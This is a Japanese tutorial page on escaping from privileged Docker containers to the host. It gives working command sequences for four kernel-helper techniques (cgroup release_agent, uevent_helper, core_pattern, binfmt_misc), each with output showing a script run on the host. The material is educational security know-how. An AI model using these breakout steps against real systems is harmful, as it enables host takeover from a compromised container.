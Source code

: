 # ホストへのエスケープ

コンテナからホスト側にエスケープできることを、コンテナという牢獄から脱出することから「Breakout」「Jailbreak」などと呼ばれることがあります。  
ここではコンテナからホスト側への Breakout の手法について紹介します。

## Privileged Container

Privileged (特権)コンテナはホスト上の全てのデバイスへのアクセスを許可するだけでなく、AppArmor などの LSM を適用せず、Capability も過剰に与えてしまうため、適切に Isolation されていないホストのプロセスとほぼ同等のプロセスになります。  
そのため、特権コンテナを侵害された場合はホスト側にエスケープできてしまうので注意が必要です。

Linux の一部機能には任意のプログラムを実行できるヘルパー機能が多数あります。例えば `call_usermodehelper_exec()` のような Linux カーネルからユーザーランドアプリケーションを実行する API などがあります。  
Privileged コンテナのように過剰な Capability を与えると、コンテナの中で特定の操作が可能な場合、この機能を利用してホスト側にエスケープすることができます。  
ここでは、そのような機能を利用してコンテナからホストへエスケープする方法をいくつか紹介します。

## cgroup release_agent

cgourp v1 には cgroup で管理されているプロセスが存在しなくなった場合にカーネルに通知を送る機能があり、その際に release_agent プログラムとしてユーザーランドのプログラムを実行することができます。  
これを利用して例えばコンテナの中で cgroupfs をマウントすることができる場合、次のようにホスト側にエスケープすることができます。

```sh
$ docker run --privileged --rm -it ubuntu:latest bash

root@927bb44baf0d:/# mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

# release_agent を有効化する
root@927bb44baf0d:/# echo 1 > /tmp/cgrp/x/notify_on_release

# ホスト側で実行するプログラムを作成
root@927bb44baf0d:/# cat <<EOF > /cmd
> #!/bin/sh
> ps aux > /tmp/output
> EOF
root@927bb44baf0d:/# chmod +x /cmd

# ホスト側からみた実行したいプログラムのファイルパスを release_agent プログラムとして登録
root@927bb44baf0d:/# mount | grep overlay2
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/4HN7CVYLX5VML6M3TK4HLNKHX2:/var/lib/docker/overlay2/l/RWN3A47IS5OFAM3BM5YCAOFBYD:/var/lib/docker/overlay2/l/DCI4FWEI5GWG2MAABQGMYNWPTY:/var/lib/docker/overlay2/l/EAP7XMJNE3QFMGS5SOHUTYQPBB,upperdir=/var/lib/docker/overlay2/ed8b2e0d609b87c327e4c6061308d83acca13bc88fe96394b46dd5312af84277/diff,workdir=/var/lib/docker/overlay2/ed8b2e0d609b87c327e4c6061308d83acca13bc88fe96394b46dd5312af84277/work,xino=off)
root@927bb44baf0d:/# echo "/var/lib/docker/overlay2/ed8b2e0d609b87c327e4c6061308d83acca13bc88fe96394b46dd5312af84277/diff/cmd" > /tmp/cgrp/release_agent

root@927bb44baf0d:/# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

# ホスト側でコマンドが実行されたことが確認できる
ubuntu@docker:/tmp$ head /tmp/output
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.3 168656 12660 ?        Ss   Nov02   0:04 /sbin/init
root           2  0.0  0.0      0     0 ?        S    Nov02   0:00 [kthreadd]
```

## uevent_helper

uevent はデバイスが追加 / 削除されたときに送信されるイベントです。その際に、 `/sys/kernel/uevent_helper` に記載されているプログラムを実行します。  
これを利用して次のようにホスト側にエスケープできます。

```sh
ubuntu@docker:~$ docker run --privileged --rm -it ubuntu:latest bash
# ホスト側で実行するプログラムを作成
root@76017d104897:/# cat <<EOF > /cmd
> #!/bin/sh
> ps aux > /tmp/output
> EOF
root@76017d104897:/# chmod +x /cmd

# ホスト側からみた実行したいプログラムのファイルパスを書き込む
root@76017d104897:/# mount | grep overlay2
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/US76JCNP5VCQ2CUZIXYAU2VIQQ:/var/lib/docker/overlay2/l/RWN3A47IS5OFAM3BM5YCAOFBYD:/var/lib/docker/overlay2/l/DCI4FWEI5GWG2MAABQGMYNWPTY:/var/lib/docker/overlay2/l/EAP7XMJNE3QFMGS5SOHUTYQPBB,upperdir=/var/lib/docker/overlay2/bb19048f6e555df3c5387b9a5a14c14fdd592fb97c3bd60ea5925ee75036cecd/diff,workdir=/var/lib/docker/overlay2/bb19048f6e555df3c5387b9a5a14c14fdd592fb97c3bd60ea5925ee75036cecd/work,xino=off)
root@76017d104897:/# echo "/var/lib/docker/overlay2/bb19048f6e555df3c5387b9a5a14c14fdd592fb97c3bd60ea5925ee75036cecd/diff/cmd" > /sys/kernel/uevent_helper

# uevent を発生させる
root@76017d104897:/# echo change > /sys/class/mem/null/uevent

# ホスト側でコマンドが実行されたことが確認できる
ubuntu@docker:/tmp$ head /tmp/output
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.3 168656 12660 ?        Ss   Nov02   0:04 /sbin/init
root           2  0.0  0.0      0     0 ?        S    Nov02   0:00 [kthreadd]
```

## core_pattern

coredump を生成する場合に `/proc/sys/kernel/core_pattern` で出力ファイル名を変更することができますが、 `|` (パイプ) が利用できるため、コマンドの実行が可能になります。  
これを利用して次のような手順でホスト側にエスケープできます。

```sh
ubuntu@docker:~$ docker run --privileged --rm -it ubuntu:latest bash
# ホスト側で実行するプログラムを作成
root@204c6661f442:/# cat <<EOF > /cmd
> #!/bin/sh
> ps aux > /tmp/output
> EOF
root@204c6661f442:/# chmod +x /cmd

# ホスト側からみた実行したいプログラムのファイルパスを書き込む
root@204c6661f442:/# mount | grep overlay2
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/UEAKPG6M42F22YWZ3I7HK3LESS:/var/lib/docker/overlay2/l/RWN3A47IS5OFAM3BM5YCAOFBYD:/var/lib/docker/overlay2/l/DCI4FWEI5GWG2MAABQGMYNWPTY:/var/lib/docker/overlay2/l/EAP7XMJNE3QFMGS5SOHUTYQPBB,upperdir=/var/lib/docker/overlay2/6acd5e8aa79a341ec8c970a77d9993617a7414b7c0e86fc719d1d54c718cc3d0/diff,workdir=/var/lib/docker/overlay2/6acd5e8aa79a341ec8c970a77d9993617a7414b7c0e86fc719d1d54c718cc3d0/work,xino=off)
root@204c6661f442:/# echo "|/var/lib/docker/overlay2/6acd5e8aa79a341ec8c970a77d9993617a7414b7c
0e86fc719d1d54c718cc3d0/diff/cmd" > /proc/sys/kernel/core_pattern

# プロセスを作り、SEGV させる
root@204c6661f442:/# sleep 100 &
[1] 16
root@204c6661f442:/# kill -SEGV 16
root@204c6661f442:/#
[1]+  Segmentation fault      (core dumped) sleep 100

# ホスト側でコマンドが実行されたことが確認できる
ubuntu@docker:/# head /tmp/output
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.3 168940 13144 ?        Ss   Nov13   0:05 /sbin/init
root           2  0.0  0.0      0     0 ?        S    Nov13   0:00 [kthreadd]
```

## binfmt_misc

`/proc/sys/fs/binfmt_misc` は指定したマジックナンバーや拡張子のファイルを実行する際に、指定のプログラム(インタプリタ)を実行することができます。  
これを利用することで次のようにホスト側にエスケープできます。

```sh
ubuntu@docker:~$ docker run --privileged --rm -it ubuntu:latest bash
# binfmt_misc をマウント
root@4af543b9eb3f:/# mount binfmt_misc -t binfmt_misc /proc/sys/fs/binfmt_misc

# ホスト側で実行するプログラムを作成
root@4af543b9eb3f:/# cat <<EOF >/cmd
> #!/bin/sh
> ps aux > /tmp/output
> EOF
root@4af543b9eb3f:/# chmod +x /cmd

# .sh という拡張子のプログラムが実行されると cmd が実行するようにする
root@4af543b9eb3f:/# mount | grep overlay2
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/MVSWHTODE2R4PLCNOXNJ7MEHNX:/var/lib/docker/overlay2/l/RWN3A47IS5OFAM3BM5YCAOFBYD:/var/lib/docker/overlay2/l/DCI4FWEI5GWG2MAABQGMYNWPTY:/var/lib/docker/overlay2/l/EAP7XMJNE3QFMGS5SOHUTYQPBB,upperdir=/var/lib/docker/overlay2/f5cbdf158d44a4e44969eab02661e22c0886d7695e216b4590115f35d4e7cc3f/diff,workdir=/var/lib/docker/overlay2/f5cbdf158d44a4e44969eab02661e22c0886d7695e216b4590115f35d4e7cc3f/work,xino=off)
root@4af543b9eb3f:/# echo ':evil:E::sh::/var/lib/docker/overlay2/f5cbdf158d44a4e44969eab02661e22c0886d7695e216b4590115f35d4e7cc3f/diff/cmd:OC' > /proc/sys/fs/binfmt_misc/register

# ホスト側で .sh 拡張子をもつファイルを実行すると cmd が実行される
ubuntu@docker:~$ /tmp/test.sh
ubunty@docker:~# head /tmp/output
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.3 168940 13144 ?        Ss   Nov13   0:05 /sbin/init
root           2  0.0  0.0      0     0 ?        S    Nov13   0:00 [kthreadd]
...
```

